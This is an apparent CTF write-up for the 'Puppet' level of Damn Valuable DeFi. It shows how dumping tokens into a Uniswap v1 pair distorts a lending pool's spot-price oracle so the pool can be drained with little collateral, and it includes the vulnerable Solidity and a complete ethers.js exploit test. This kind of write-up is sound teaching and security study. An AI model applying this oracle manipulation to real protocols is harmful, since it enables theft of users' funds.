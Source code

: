 # Puppet

## Challenge

There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There's a DVT market opened in an Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.

## Solution

Let us see how the borrowing mechanism work

The idea here is to exploit the AMM model of Uniswap v1, that is

```solidity
function borrow(uint256 borrowAmount) public payable nonReentrant {
        uint256 depositRequired = calculateDepositRequired(borrowAmount);
        // ...
}
```

It first asks the required collateral deposit in ETH, by calling the `calculateDepositRequired` function, that is

```solidity
function calculateDepositRequired(uint256 amount) public view returns (uint256) {
    return amount * _computeOraclePrice() * 2 / 10 ** 18;
}
```

This function calls the `_computeOraclePrice` function below

```solidity
function _computeOraclePrice() private view returns (uint256) {
    // calculates the price of the token in wei according to Uniswap pair
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

This means that in order to obtain a huge loan with a little collateral, we could manipulate the prices in the oracle, that in this case is a Uniswap pair DVT/ETH. If the amount of DVT token in the Uniswap Exchange DVT/ETH is huge compared to the ETH balance, then `_computeOraclePrice()` will be small, and with a small amount of ETH we will be able to take all the DVT tokens of the pool. If we do the math, to borrow 100000 DVT for 25ETH would mean that the amount of DVT in the exchange is at least 100000 \* 2 /25 = 8000 times higher than the ETH balance of the pool.

Making a swap of 999 DVT for ETH, will leave the Exchange with 1009 DVT and aproximately 0,0994 ETH which gives a ratio of more than 10000, enough to perform the attack. To optimise the attack we would need to know which token has more value to us, and then calculate the output price of the pair after doing the swap.

We implement the attack on the file [`puppet.challenge.js`](../../test/puppet/puppet.challenge.js), which we completed with the following code.

```javascript
it("Exploit", async function () {
  /** CODE YOUR EXPLOIT HERE  */
  await this.token.connect(attacker).approve(
    this.uniswapExchange.address,
    ethers.utils.parseEther("999") // We keep 1 token to validate the tests
  )

  await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(
    ethers.utils.parseEther("999"),
    1,
    (await ethers.provider.getBlock("latest")).timestamp * 2 //deadline
  )

  await this.lendingPool
    .connect(attacker)
    .borrow(POOL_INITIAL_TOKEN_BALANCE, { value: ATTACKER_INITIAL_ETH_BALANCE })
})
```
